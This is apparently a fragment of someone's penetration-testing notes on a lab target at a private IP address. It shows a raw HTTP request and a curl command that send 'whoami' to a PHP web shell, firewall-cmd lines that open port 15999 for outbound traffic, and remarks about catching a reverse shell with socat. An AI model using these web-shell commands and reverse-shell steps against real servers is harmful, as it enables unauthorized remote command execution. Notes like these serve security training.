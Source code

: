 
```
POST /web/exploit-sardarji.php HTTP/1.1

Host: 10.200.87.150

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: csrftoken=4Z65FLlf0WIwqYkgLN8R6kETdRgXT2w4; sessionid=43621cb6f1a317423ef820294d1f2b07

Upgrade-Insecure-Requests: 1

Content-Type: application/x-www-form-urlencoded

Content-Length: 8


```


```
curl -X POST http://10.200.87.150/web/exploit-sardarji.php -d "a=whoami"
```

```
refer notepad for now
```

So we have 2 methods to execute and talk back with the server
1st Burpsuite
2nd Curl

I was not getting the shell means firewall is not allowing us to pass the outbound traffic. So let's open the port which should be greater than 15000.

```
firewall-cmd --zone=public --add-port 15999/tcp
```

```
firewall-cmd --list-all
```

![[Pasted image 20240730191933.png]]

I am doing something wrong will review things.

So i have checked and we are getting the reverse shell at the production server
![[Pasted image 20240731122756.png]]

So let's see if we have configured the socat correctly or not.
